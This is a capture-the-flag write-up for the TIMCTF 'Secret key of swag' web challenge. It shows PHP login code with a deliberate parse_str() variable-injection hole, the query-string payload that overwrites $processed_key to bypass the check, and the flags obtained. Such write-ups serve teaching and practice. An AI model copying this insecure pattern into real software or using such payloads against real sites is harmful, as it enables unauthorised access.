 **FLAG : `TIMCTF{D0_not_b3_superfic1al}`**

<br />

## Secret key of swag (150pts) ![](https://user-images.githubusercontent.com/32904385/65112572-156dcb80-da1b-11e9-8133-e348ea7ecc6b.png)

> Our spies leaked the authentication algorithm for this site, but the login seems rigged. Is it so?
>
> http://89.38.208.143:20002/
>
> This is a reupload as yesterday an unintended solution was found
>
> index.php 99b9fd6c5262ab6762059d333ced10eb

in index.php

```php
<?php

if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['action'])){
        $action = $res['action'];
    }
}

if ($action === 'login') {
    if (!empty($res['key'])) {
        $key = $res['key'];
    }

    if (!empty($key)) {
        $processed_key = strtoupper($key);
    }
    if (!empty($processed_key) && $processed_key === 'hax0r') {
        echo file_get_contents( "flag.txt" );
    }
    else {
        echo 'Sorry, you don\'t have enough swag to enter';
    }
}

?>
```

- We can use parse_str() function to control $processed_key varriable.

> http://89.38.208.143:20002/?action=login&processed_key=hax0r

```
Please inspect element, your flag is there<?php
//TIMCTF{Welcome_M4N_of_SW4G}, I have been expecting you!
?>
```
